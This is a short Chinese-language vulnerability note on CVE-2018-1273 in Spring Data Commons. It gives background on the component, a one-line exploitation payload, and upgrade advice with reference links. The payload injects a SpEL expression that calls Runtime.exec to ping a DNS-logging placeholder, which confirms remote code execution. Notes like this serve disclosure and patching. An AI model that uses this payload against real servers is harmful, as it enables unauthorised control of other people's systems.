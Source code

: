 ### 一 漏洞描述
Spring Data 是Spring 的一个子项目， 旨在统一和简化对各类型持久化存储， 而不拘泥于是关系型数据库还是NoSQL 数据存储。  
无论是哪种持久化存储， 数据访问对象（或称作为DAO，即Data Access Objects）通常都会提供对单一域对象的CRUD （创建、读取、更新、删除）操作、查询方法、排序和分页方法等。  
Spring Data则提供了基于这些层面的统一接口（CrudRepository，PagingAndSortingRepository）以及对持久化存储的实现。

Commons是spring data的子项目，提供共享的基础框架，适合各个子项目使用，支持跨数据库持久化

Spring Data Commons爆出远程代码执行漏洞（CVE-2018-1273），攻击者可构造包含有恶意代码的SPEL表达式实现远程代码攻击，直接获取服务器控制权限

### 二 漏洞利用
xxx[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("ping -n 1 {dnslog}")]=&xxx

### 三 漏洞修复
升级组件  

> 参考链接
> http://blog.nsfocus.net/cve-2018-1273/ 
> http://blog.nsfocus.net/cve-2018-1273-analysis/  
> https://www.oschina.net/p/spring-data?hmsr=aladdin1e1
